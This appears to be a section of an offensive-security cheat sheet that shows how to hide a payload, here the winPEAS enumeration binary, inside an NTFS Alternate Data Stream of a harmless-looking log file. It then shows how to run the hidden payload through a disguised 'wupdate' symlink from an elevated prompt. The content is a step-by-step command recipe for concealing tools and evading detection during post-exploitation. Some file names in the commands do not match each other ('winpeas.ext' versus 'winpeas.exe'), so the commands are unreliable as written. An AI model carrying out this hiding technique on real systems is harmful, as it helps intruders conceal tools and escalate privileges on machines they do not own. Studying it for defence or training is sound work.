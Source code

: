 ## 3. Windows File System Vulnerabilities

### 3.1. Alternate Data Streams

The following technique is used in Post-Exploitation to hide malicious payloads within legitimate files using **Alternate Data Streams (ADS) on NTFS file systems**. Attackers can conceal tools like winPEAS to perform local enumeration and attempt privilege escalation without detection. The use of symbolic links and elevated execution helps bypass security restrictions and execute hidden payloads.

```shell
# Step 1: Create a simple text file using Notepad
# Open the terminal and create a text file named "test.txt" using Notepad.
notepad test.txt

# Write something in the file and save it.
# You can later check the file's metadata by right-clicking on the file, selecting 'Properties,' and navigating to the 'Details' tab.

# Step 2: Create an alternate data stream (ADS) to hide additional information
# In Windows, files can have hidden data streams using the NTFS file system's Alternate Data Streams feature.
# Here, we create a hidden stream attached to "test.txt" called "secret.txt".
notepad test.txt:secret.txt

# Write some content in this hidden stream and save it.
# When you open "test.txt" again, nothing will appear in the main file since the hidden stream remains invisible through standard file access methods.

# Step 3: Concealing a malicious payload using an Alternate Data Stream
# We can hide a malicious payload within the file's resource stream. When the file executes, we can specify execution from the hidden stream.

# Step 4: Using winPEAS for privilege escalation enumeration
# The winPEASx64 binary is a tool used by penetration testers to perform local system enumeration on Windows machines, identifying potential privilege escalation vulnerabilities.

# First, navigate to the Temp directory where we'll hide the binary within an alternate stream.
# The following command hides the winPEAS executable within a legitimate-looking text file.
type payload.exe > windowslog.txt:winpeas.ext

# Attempt to execute the hidden binary directly.
# This command will fail with an "Access Denied" error because Windows doesn't allow execution directly from alternate data streams.
start windowslog.txt:winpeas.exe  # Access Denied

# Step 5: Bypassing execution restriction using symbolic links (mklink)
# To execute the hidden payload, create a symbolic link in the System32 directory, pointing to the hidden binary.
mklink wupdate.ext C:\Temp\windowslog.txt:winpeas.ext

# Step 6: Run the payload from an elevated prompt
# Open Command Prompt as Administrator and run the newly created link.
# This can potentially allow execution of the payload with elevated privileges if properly configured.
C:\Windows\system32>wupdate
```
